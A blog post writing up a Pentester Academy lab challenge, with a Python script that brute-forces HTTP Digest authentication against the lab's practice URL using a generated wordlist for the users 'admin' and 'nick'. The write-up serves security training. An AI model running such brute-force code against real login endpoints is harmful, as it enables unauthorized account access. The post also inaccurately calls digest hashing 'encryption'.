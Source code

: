 ```yaml
---
author: AnirudhAnand
comments: true
date: 2015-01-17 05:05:13+00:00
layout: post
slug: wap-challenge-5-brute-forcing-digest-authentication
title: 'WAP Challenge 5: Brute forcing Digest Authentication'
wordpress_id: 5840
categories:
- python
summary: Writeup for WAP challenge 5 from pentester academy
---
```


In the last article we saw how can we actually brute force HTTP Basic Authentication, this time we will see how we can do the same in a Digest based Authentication. If you are not already familiar with [Digest based authentication](http://en.wikipedia.org/wiki/Digest_access_authentication), I strongly recommend you to read more about it and then continue with this article. The key difference here is that for an HTTP basic authentication we can simply pass on different username:password combinations and it passes in plain text through the network. But for  a digest based auth, encryption is being introduced so that hackers cannot eavesdrop on the communication between you and the server.

Lets us look into the script.

{% highlight python lineos %} 
    #!/usr/bin/python3.4
    # Written by Anirudh Anand (lucif3r) : email - anirudh@anirudhanand.com__author__ = 'lucif3r'
    # This is the solution to Pentester Academy's WAP Challenge 4: Digest Authentication Brute-
    # Force. The script uses urllib library in python 3.4
    __author__ = 'lucif3r'
    import urllib.request
    import urllib.error
    import itertools
    def generate_wordlist(words, l):
        """
        :rtype : list
        :param words The string from which words should be made:
        :param l length of the strings:
        :return:
        """
        list_pass = []
        for i in itertools.product(words, repeat=l):
            list_pass.append("".join(i))
        return list_pass
    def brute_force(username):
        """
        :param username:  Username for Brute forcing
        """
        url = 'http://pentesteracademylab.appspot.com/lab/webapp/digest/1'
        passwords = generate_wordlist('ads', 5)
        print("wordlist generated. Starting Brute FOrce...")
        for i in passwords:
            authhandler = urllib.request.HTTPDigestAuthHandler()
            authhandler.add_password('Pentester Academy', url, username, i)
            opener = urllib.request.build_opener(authhandler)
            urllib.request.install_opener(opener)
            print(i)
            try:
                    page = urllib.request.urlopen(url)
            except urllib.error.HTTPError as e:
                    print("failing")
            else:
                    print ('Username: '+username+' Password: '+i)
                    break
    brute_force('admin')
    brute_force('nick')
{% endhighlight %}

As you can see, we used the urllib module in python 3.4 to create an **authhandler** which handles the HTTP Digest Authentication along with the password, url and other things. As you can read from the [Wikipedia](http://en.wikipedia.org/wiki/Digest_access_authentication) that an md5 hashing is done using the nounce, url, password etc but when we automate this in python, **urllib** will take care of everything for us. We don't need to bother about it.

If you find a better way to complete this or if you are facing any issues regarding to this challenge, don't hesitate to drop a comment.